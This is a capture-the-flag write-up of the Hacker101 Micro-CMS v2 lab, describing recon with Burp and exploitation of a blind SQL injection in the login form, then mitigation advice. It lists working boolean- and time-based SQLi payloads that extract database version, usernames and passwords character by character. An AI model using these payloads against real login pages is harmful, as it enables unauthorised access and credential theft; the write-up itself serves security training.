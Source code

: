 # Micro-CMS-v2-Blind-SQLi

I. Introduction

        Blind SQL injection (SQLi) is a type of SQL injection attack where an attacker can infer the content of the
    database without directly extracting the data. This is achieved by sending crafted SQL queries to the
    application and analyzing the response of the server, without actually seeing the database content. Blind SQLi
    is commonly used in CTF (Capture the Flag) challenges as a way to test the ability of participants to exploit
    vulnerabilities in web applications. By exploiting Blind SQLi, participants can demonstrate their skills in 
    finding and exploiting vulnerabilities, as well as their ability to analyze application behavior and logic to
    infer the content of the database. Blind SQLi challenges can vary in complexity and difficulty, ranging from
    basic Boolean-based techniques to more advanced techniques involving time delays, error messages, and other
    indicators. This lab is made by hacker101 and will be going over one flag.

II. Information Gathering

        After spinning up burp and enabling the proxy I loaded into the website and noticed a CMS changelog link.
    Upon viewing the page I can see they added a login page as well as a change that allows only admins to edit
    and add pages. Continuing mapping the application I click the Markdown Test and notice its similar to CMSv1
    but whenever you try to edit that page is directs you to a login page /admin. The last link is the Create a
    new page which also redirects you to the /admin page. With all of these POST/GET requests in Burp we can start
    to see these interactions in more detail. This concludes the mapping of the application for now.
           

III. Exploitation

        Now that the application has been mapped with all of its functionality I start to fuzz my attack surface.
    I started with the login page as that would open up the most functionality to us. I started by inputting some 
    common username/passwords and notice I get an Unknown User error. None of the easy gimmies worked like
    admin/password...etc. Onto special characters for SQL considering it is a login page and would you look at that. 
    A single apostrophe has done the job. We get an error with the exact SQL query being placed into the backend as
    well as which DB is in use, which is MariaDB. Now I know that I can escape it and write my own magic! I start    
    small and build up... 
    
    **Testing Boolean Payloads:**
    ~~~
    payload1: ' OR (1=1)# // Well that's nice, no errors and it ALSO displays a new error "Invalid Password"
    
    Payload2: ' OR (SELECT CASE WHEN (1=1) THEN 1=1 ELSE 1=2 END)# // Changing the conditionals works
    ~~~
    **Enumeration Test:**
    ~~~
    Payload3: ' OR (SELECT CASE WHEN SUBSTRING(@@version,1,1)='1' THEN 1=1 ELSE 1=2 END)# //Enumerates DB version
    ~~~
    **Enumerating Length of the 1st username:**
    ~~~
    Payload4: ' OR LENGTH(username)=5# // Enums length of username
   
    Payload5: ' OR LENGTH(password)=5# // Enums length of password
    ~~~
    **Enumerating the user/pass using Burp Intruder:**
    ~~~
    Payload6:' OR (SELECT CASE WHEN SUBSTRING(username,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    Payload7:' OR (SELECT CASE WHEN SUBSTRING(password,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    ~~~  
    
    Other Avenues for exploiting VIA TIME BASED AND UNION SELECT:
    ~~~
    Payload: ' OR (UNION SELECT NULL#) // This also doesn't give us an error but adding a second NULL value errors   
    
    Payload: ' OR (SELECT CASE WHEN SUBSTRING(password,1,1)='k' THEN sleep(10) ELSE 1=2 END)# //induces sleep if 
    condition is true. This would be better if the default login creds message was standard
    ~~~
    
IV. Flag Retrieval

    After you have retrieved the username/password you are able to login and are presented with a flag. 

V. Conclusion/Mitigation

    In summary I was able to use Blind SQLi to enumerate database contents and gain credentials to an admins account.
    For mitigation I would sanitize user input before passing it to the database and use parameterized queries. 
    I would also give a single generic message when trying to login like "unknown login credentials" instead of
    "Unknown Username" and "Invalid password". Even if SQLi wasn't present the ungeneric error messages would lead
    to username enumeration.
